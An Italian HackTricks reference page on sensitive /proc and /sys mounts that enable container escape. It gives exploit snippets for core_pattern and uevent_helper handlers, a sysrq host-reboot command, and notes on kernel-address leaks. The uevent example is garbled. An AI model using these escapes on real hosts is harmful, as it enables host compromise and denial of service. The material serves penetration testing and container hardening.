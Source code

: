 # Mount sensibili

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

L'esposizione di `/proc` e `/sys` senza un'adeguata isolamento dei namespace introduce rischi significativi per la sicurezza, tra cui l'ingrandimento della superficie di attacco e la divulgazione di informazioni. Queste directory contengono file sensibili che, se configurati in modo errato o accessibili da un utente non autorizzato, possono portare alla fuga del container, alla modifica dell'host o fornire informazioni che facilitano ulteriori attacchi. Ad esempio, il montaggio non corretto di `-v /proc:/host/proc` può eludere la protezione di AppArmor a causa della sua natura basata sul percorso, lasciando `/host/proc` non protetto.

**Puoi trovare ulteriori dettagli su ciascuna vulnerabilità potenziale in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## Vulnerabilità di procfs

### `/proc/sys`

Questa directory consente l'accesso per modificare le variabili del kernel, di solito tramite `sysctl(2)`, e contiene diverse sottodirectory di interesse:

#### **`/proc/sys/kernel/core_pattern`**

* Descritto in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Consente di definire un programma da eseguire alla generazione del file core con i primi 128 byte come argomenti. Ciò può portare all'esecuzione di codice se il file inizia con un pipe `|`.
*   **Esempio di test ed exploit**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Testa l'accesso in scrittura
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Imposta un gestore personalizzato
sleep 5 && ./crash & # Attiva il gestore
```

#### **`/proc/sys/kernel/modprobe`**

* Dettagliato in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Contiene il percorso al caricatore del modulo del kernel, invocato per il caricamento dei moduli del kernel.
*   **Esempio di controllo dell'accesso**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Controlla l'accesso a modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Citato in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Un flag globale che controlla se il kernel va in panico o invoca l'OOM killer quando si verifica una condizione OOM.

#### **`/proc/sys/fs`**

* Come da [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), contiene opzioni e informazioni sul file system.
* L'accesso in scrittura può consentire vari attacchi di negazione del servizio contro l'host.

#### **`/proc/sys/fs/binfmt_misc`**

* Consente di registrare interpreti per formati binari non nativi in base al loro numero magico.
* Può portare a un'escalation dei privilegi o all'accesso alla shell di root se `/proc/sys/fs/binfmt_misc/register` è scrivibile.
* Esploito e spiegato in modo dettagliato:
* [Rootkit fai-da-te tramite binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Tutorial approfondito: [Link al video](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Altri in `/proc`

#### **`/proc/config.gz`**

* Potrebbe rivelare la configurazione del kernel se `CONFIG_IKCONFIG_PROC` è abilitato.
* Utile per gli attaccanti per identificare vulnerabilità nel kernel in esecuzione.

#### **`/proc/sysrq-trigger`**

* Consente di invocare comandi Sysrq, causando potenzialmente riavvii immediati del sistema o altre azioni critiche.
*   **Esempio di riavvio dell'host**:

```bash
echo b > /proc/sysrq-trigger # Riavvia l'host
```

#### **`/proc/kmsg`**

* Espone i messaggi del buffer circolare del kernel.
* Può aiutare negli exploit del kernel, nelle fughe di indirizzi e nel fornire informazioni sensibili sul sistema.

#### **`/proc/kallsyms`**

* Elenca i simboli esportati dal kernel e i loro indirizzi.
* Essenziale per lo sviluppo di exploit del kernel, specialmente per superare il KASLR.
* Le informazioni sugli indirizzi sono limitate con `kptr_restrict` impostato su `1` o `2`.
* Dettagli in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfaccia con il dispositivo di memoria del kernel `/dev/mem`.
* Storicamente vulnerabile agli attacchi di escalation dei privilegi.
* Maggiori dettagli in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Rappresenta la memoria fisica del sistema in formato core ELF.
* La lettura può rivelare i contenuti della memoria dell'host e di altri container.
* Le dimensioni del file possono causare problemi di lettura o crash del software.
* Utilizzo dettagliato in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Interfaccia alternativa per `/dev/kmem`, rappresentante la memoria virtuale del kernel.
* Consente la lettura e la scrittura, quindi la modifica diretta della memoria del kernel.

#### **`/proc/mem`**

* Interfaccia alternativa per `/dev/mem`, rappresentante la memoria fisica.
* Consente la lettura e la scrittura, la modifica di tutta la memoria richiede la risoluzione degli indirizzi virtuali in fisici.

#### **`/proc/sched_debug`**

* Restituisce informazioni sulla pianificazione dei processi, aggirando le protezioni dello spazio dei PID.
* Espone nomi dei processi, ID e identificatori dei cgroup.

#### **`/proc/[pid]/mountinfo`**

* Fornisce informazioni sui punti di mount nel namespace di mount del processo.
* Espone la posizione del `rootfs` o dell'immagine del container. 

### Vulnerabilità di `/sys`

#### **`/sys/kernel/uevent_helper`**

* Usato per gestire gli `uevent` dei dispositivi del kernel.
* Scrivere su `/sys/kernel/uevent_helper` può eseguire script arbitrari al verificarsi degli `uevent`.
*   **Esempio di exploit**: %%%bash

## Crea un payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

## Trova il percorso dell'host dal mount OverlayFS per il container

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

## Imposta uevent\_helper su un helper maligno

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

## Attiva un uevent

echo change > /sys/class/mem/null/uevent

## Legge l'output

cat /output %%%
#### **`/sys/class/thermal`**

* Controlla le impostazioni di temperatura, potenzialmente causando attacchi DoS o danni fisici.

#### **`/sys/kernel/vmcoreinfo`**

* Rilascia gli indirizzi del kernel, compromettendo potenzialmente il KASLR.

#### **`/sys/kernel/security`**

* Contiene l'interfaccia `securityfs`, consentendo la configurazione dei Moduli di Sicurezza Linux come AppArmor.
* L'accesso potrebbe consentire a un contenitore di disabilitare il suo sistema MAC.

#### **`/sys/firmware/efi/vars` e `/sys/firmware/efi/efivars`**

* Espone interfacce per interagire con le variabili EFI nella NVRAM.
* Una errata configurazione o sfruttamento può portare a laptop bloccati o macchine host non avviabili.

#### **`/sys/kernel/debug`**

* `debugfs` offre un'interfaccia di debug "senza regole" al kernel.
* Storia di problemi di sicurezza dovuti alla sua natura non limitata.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
